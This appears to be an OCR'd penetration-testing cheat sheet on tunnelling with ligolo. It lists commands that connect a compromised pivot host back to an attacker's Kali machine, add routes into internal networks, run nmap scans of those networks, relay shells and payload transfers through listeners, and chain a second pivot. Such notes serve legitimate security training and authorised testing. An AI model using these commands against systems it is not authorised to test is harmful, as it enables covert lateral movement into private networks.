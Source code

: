 # Tunnelling
*   Setup
    *   Kali        → `ligstart()`
    *   Pivot     → `ligolo-agent -connect [KALI_IP]:11601 -ignore-cert`
    *   Kali        → Select Session → `start` 
    *   Kali        → `sudo ip route add [ROUTE] dev ligolo`
*   Local Forwarding
    *   Route    → `240.0.0.1`
    *   Access   → `240.0.0.1:[PORT]` (Universal IP - Change Session to access other pivots)
*   Dynamic Forwarding
    *   Route → `[INTRANET_CIDR]`
        *   Linux        → `ip route`
        *   Windows → `route -n`
    *   Network Scanning
        *   `sudo nmap -PE -sn  [INTRANET_CIDR]`
        *   `sudo nmap -PE -sCV [INTRANET_IP]`
    *   Shells / Transfers
        *   Kali → `listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:8000 --tcp` 
        *   Kali → `listen() 8000` / `httpserv() 8000`
        *   Requests/Payloads → `[PIVOT_INTRANET_IP]:30000`
    *   Double Pivoting
        *   Kali                   → Select Pivot Session + `listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp`
        *   Second Pivot → `ligolo-agent -connect [FIRST_PIVOT_INTRANET_IP]:11601 -ignore-cert`
        *   Kali                   → Select Session + `start` + `sudo ip route add [SECOND_INTRANET_CIDR] dev ligolo`